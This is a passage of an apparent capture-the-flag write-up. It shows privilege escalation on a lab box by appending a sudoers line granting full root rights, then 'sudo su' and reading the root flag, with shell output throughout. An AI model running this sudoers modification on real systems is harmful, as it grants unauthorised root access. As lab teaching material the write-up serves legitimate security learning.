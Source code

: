 It looks like we are lucky and can edit the sudoers file.
This is an easy privilege escalation for us as attackers. We only have to add our selves to the sudoers file. The command to do this looks like this: 

```
echo 'darkdante    ALL=(ALL:ALL) ALL' >> /etc/sudoers
```


## Privilege escalation
Now we have to execute the command on our target. and check if we are added into the sudoers file.
```bash
darkdante@blackhat:~$ echo 'darkdante    ALL=(ALL:ALL) ALL' >> /etc/sudoers
echo 'darkdante    ALL=(ALL:ALL) ALL' >> /etc/sudoers
darkdante@blackhat:~$ sudo cat /etc/sudoers
sudo cat /etc/sudoers
#
# This file MUST be edited with the 'visudo' command as root.
#
# Please consider adding local content in /etc/sudoers.d/ instead of
# directly modifying this file.
#
# See the man page for details on how to write a sudoers file.
#
Defaults        env_reset
Defaults        mail_badpass
Defaults        secure_path="/usr/local/sbin:/usr/local/bin:/usr/sbin:/usr/bin:/sbin:/bin"

# Host alias specification

# User alias specification

# Cmnd alias specification

# User privilege specification
root    ALL=(ALL:ALL) ALL

# Allow members of group sudo to execute any command
%sudo   ALL=(ALL:ALL) ALL
# See sudoers(5) for more information on "@include" directives:

@includedir /etc/sudoers.d

darkdante    ALL=(ALL:ALL) ALL
```
Finally we should switch user to root, double check who we are and capture the root flag!
```bash
darkdante@blackhat:~$ sudo su
sudo su
root@blackhat:/home/darkdante# cd ~
cd ~
root@blackhat:~# whoami
whoami
root
root@blackhat:~# cat root.txt
cat root.txt
HERE IS THE ROOT FLAG

```
We pwned this box!